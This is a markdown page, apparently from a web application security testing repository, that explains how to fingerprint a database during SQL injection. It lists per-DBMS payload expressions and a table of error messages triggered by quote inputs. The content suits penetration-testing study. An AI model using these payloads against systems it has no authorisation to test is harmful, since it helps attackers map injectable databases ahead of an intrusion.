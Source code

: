 If we does not know any thing about the target database and tables, to know the database name and the version will be our first priority.

- ### [SQL Payloads](https://github.com/SpiderSec101/Web_Application_Security_Testing/new/main/Vulnerabilities/SQL%20Injection#sql-payloads)
- ### [Error Messages](https://github.com/SpiderSec101/Web_Application_Security_Testing/edit/main/Vulnerabilities/SQL%20Injection/DBMS_Identification.md#error-messages)

---

### SQL Payloads
It is a database fingerprinting technique in which we apply different SQL payloads to get any valid responses, so that we can confirm which SQL payload is working and then the database type can be easily known through the tables

- **MySQL-Specific Payloads**
  If these payload can trigger ant valid responses or errors the DBMS is likely My-SQL based.
  
      conv('a',16,2)=conv('a',16,2)
      connection_id()=connection_id()
      crc32('MySQL')=crc32('MySQL')
  
- **MSSQL Specific Payloads**
  
    	BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)
      @@CONNECTIONS>0
      @@CONNECTIONS=@@CONNECTIONS
      @@CPU_BUSY=@@CPU_BUSY
      USER_ID(1)=USER_ID(1)
  
- **Oracle Specific Payloads**
      ROWNUM=ROWNUM
      RAWTOHEX('AB')=RAWTOHEX('AB')
      LNNVL(0=123)
  
- **POSTGRESQL Specific Payloads**

      5::int=5
      5::integer=5
      pg_client_encoding()=pg_client_encoding()
      get_current_ts_config()=get_current_ts_config()
      quote_literal(42.5)=quote_literal(42.5)
      current_database()=current_database()

- **SQLite Specific Payloads**

      sqlite_version()=sqlite_version()
      last_insert_rowid()>1
      last_insert_rowid()=last_insert_rowid()

- **MSACCESS Specific Payloads**

      val(cvar(1))=1
      IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0

### Error Messages
If we can trigger any SQL error message, it also tells about the database type.

| **DBMS** | **Example Error Message** | **Example Payload** |
| --- | --- | --- |
| MySQL | `You have an error in your SQL syntax; ... near '' at line 1` | `'` |
| PostgreSQL | `ERROR: unterminated quoted string at or near "'"` | `'` |
| PostgreSQL | `ERROR: syntax error at or near "1"` | `1'` |
| Microsoft SQL Server | `Unclosed quotation mark after the character string ''.` | `'` |
| Microsoft SQL Server | `Incorrect syntax near ''.` | `'` |
| Microsoft SQL Server | `The conversion of the varchar value to data type int resulted in an out-of-range value.` | `1'` |
| Oracle | `ORA-00933: SQL command not properly ended` | `'` |
| Oracle | `ORA-01756: quoted string not properly terminated` | `'` |
| Oracle | `ORA-00923: FROM keyword not found where expected` | `1'` |






































    
